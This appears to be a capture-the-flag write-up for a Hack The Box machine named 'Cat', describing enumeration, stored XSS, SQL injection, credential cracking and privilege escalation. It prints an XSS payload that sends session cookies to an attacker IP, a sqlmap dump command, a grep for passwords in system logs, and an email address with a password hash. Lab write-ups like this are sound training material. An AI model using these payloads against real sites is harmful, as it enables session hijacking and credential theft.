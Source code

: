 Started with a nmap scan
```
22 OpenSSH 8.2p1 Ubuntu
80 Apache 2.4.41
```
The nmap scan shows that the webserver redirects to a domain `http://cat.htb/` looking around the site we can make a account and vote to a cat there is also a `.git` folder and we can use gitdumper to dump it looking at the source code there is a hardcoded admin user `axel` testing register page for sql injection  while I was testing parts of the site I was trying to crack the login for the user `axel` and it cracked after a while I gave up on this going back and testing xss we got a hit with the `contest.php` we can add are payload at the end of the image 
`<script>fetch('http://10.10.14.248/cookie?cookie=' + encodeURIComponent(document.cookie));</script>` 
and now we have the cookie for axel and now we can access the admin page and accept or deny cats so testing for sql injection agin and found the `catName` parameter is vulnerable 
`sqlmap -r req -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST -T users --dump`
and we get a user with a hash `rosamendoza485@gmail.com:ac369922d560f17d6eeb8b2c7dec498c` and we could crack the user and SSH into the machine as `rosa` and checked for sudo prives and we don't have any so gonna run linpeas now and I also ran this command `grep -Ri pass /var/log` and found a password and found a password in the apache log files for axel user running linpeas agin we can see are user has some mail so when reading the e-mail from rosa says there is a gittea service running on port `3000` so now we need to port forward that port to are host and its running version `1.22.0` and we can use the same creds to login to the user `axel` and there is a XSS exploit and we can use this to send us the creds for the root login  